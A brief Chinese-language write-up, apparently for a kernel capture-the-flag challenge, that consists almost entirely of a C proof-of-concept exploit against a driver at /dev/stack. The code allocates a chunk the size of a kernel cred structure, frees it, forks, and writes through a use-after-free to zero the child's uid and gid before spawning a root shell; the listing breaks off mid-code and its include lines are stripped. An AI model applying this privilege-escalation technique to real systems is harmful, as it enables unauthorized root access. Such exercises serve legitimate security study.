  

比较简单，这里直接给

### POC

```
#include #include #include #include #include #include #include #include #include #include struct addNote
{
    size_t len;
    char* data;
};
 
struct editNote
{
    size_t idx;
    size_t len;
    char* data;
};
 
 
 
//open dev
int openDev(char* pos);
void addFun(int fd,struct addNote* arg);
void freeFun(int fd,struct editNote* arg);
void editFun(int fd,struct editNote* arg);
void readFun(int fd,struct editNote* arg);
 
 
int main(int argc, char *argv[])
{
    int fd;
    int idFork;
    unsigned long memOffset;
    struct addNote addChunk;
    struct editNote readChunk;
    struct editNote editChunk;
 
    //open Dev
    char* pos = "/dev/stack";
    fd = openDev(pos);
 
    char credBuf[0xa8] = {0};
    addChunk.len = 0xa8;
    addChunk.data = credBuf;
    addFun(fd,&addChunk);
 
    editChunk.idx = 0;
    freeFun(fd,&editChunk);
 
    idFork = fork();
    editChunk.data = credBuf;
    editChunk.len = 28;
    if(idFork == 0){
        //get into 28*0 to set uid and gid 0
        editFun(fd,&editChunk);    
        if(getuid() == 0){
            printf("[*]welcome root:\n");
            system("/bin/sh");
            return 0;
        }
    }
    else if(idFork < 0){
```